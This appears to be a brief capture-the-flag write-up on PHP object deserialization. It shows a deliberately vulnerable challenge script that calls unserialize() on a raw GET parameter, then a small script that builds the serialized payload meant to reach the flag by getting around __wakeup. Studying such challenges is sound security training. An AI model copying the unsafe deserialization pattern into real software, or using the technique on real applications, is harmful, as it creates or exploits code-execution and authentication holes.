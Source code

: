 





### no_wakeup

```php
<?php

header("Content-type:text/html;charset=utf-8");
error_reporting(0);
show_source("class.php");

class HaHaHa{


        public $admin;
        public $passwd;

        public function __construct(){
            $this->admin ="user";
            $this->passwd = "123456";
        }

        public function __wakeup(){
            $this->passwd = sha1($this->passwd);
        }

        public function __destruct(){
            if($this->admin === "admin" && $this->passwd === "wllm"){
                include("flag.php");
                echo $flag;
            }else{
                echo $this->passwd;
                echo "No wake up";
            }
        }
    }

$Letmeseesee = $_GET['p'];
unserialize($Letmeseesee);

?>
```

绕过__wakeup

```php
<?php

class HaHaHa{
    public $admin = "admin";
    public $passwd = "wllm";
}

$a = new HaHaHa();
echo serialize($a);
```
